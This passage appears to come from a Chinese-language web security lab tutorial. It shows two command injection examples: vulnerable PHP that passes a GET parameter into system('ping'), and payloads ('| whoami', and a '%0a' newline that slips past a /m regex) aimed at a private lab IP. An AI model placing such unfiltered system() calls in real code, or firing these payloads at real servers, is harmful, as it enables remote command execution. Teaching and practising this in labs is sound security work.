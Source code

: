 ### 2.1.2 Commands injection Example 1

从代码可以看出未做过滤

```bash
<?php
  system("ping -c 2 ".$_GET['ip']);
?>
```

使用 | 连接符跟上要执行的命令  
[http://192.168.245.131/commandexec/example1.php?ip=127.0.0.1](http://192.168.245.131/commandexec/example1.php?ip=127.0.0.1) | whoami  
[![](assets/1704850598-f6cb1ceb3763ca117dc0d94b9f333410.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/VsIuqiVHiaU2vVyN.png)

### 2.1.3 Commands injection Example 2

从代码可以看出使用/m，/m 只匹配一行，所以可以使用换行符绕过

```bash
<?php
  if (!(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/m', $_GET['ip']))) {
     die("Invalid IP address");
  }
  system("ping -c 2 ".$_GET['ip']);
?>
```

使用%0a 进行绕过  
[http://192.168.245.131/commandexec/example2.php?ip=127.0.0.1%0awhoami](http://192.168.245.131/commandexec/example2.php?ip=127.0.0.1%0awhoami)  